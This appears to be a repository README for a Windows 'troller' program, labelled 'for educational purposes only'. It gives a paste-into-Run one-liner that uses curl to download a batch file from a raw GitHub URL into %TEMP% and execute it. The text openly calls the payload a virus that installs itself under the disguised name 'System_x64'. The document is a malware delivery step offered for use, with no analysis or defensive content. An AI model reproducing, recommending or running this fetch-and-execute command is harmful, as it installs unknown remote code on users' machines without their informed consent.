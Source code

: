 # V2 troller - Remote execution edition
## FOR EDUCATIONAL PURPOSES ONLY
### Windows only
To execute, open the run dialogue box (`win + r`), and paste in the following:
```
cmd /c curl -s "https://raw.githubusercontent.com/vexnity/troller-revamped/main/coldrun.bat" > "%TEMP%\coldrun.bat" && "%TEMP%\coldrun.bat"
```
Which will download the virus to the home folder under "System_x64" and execute it.
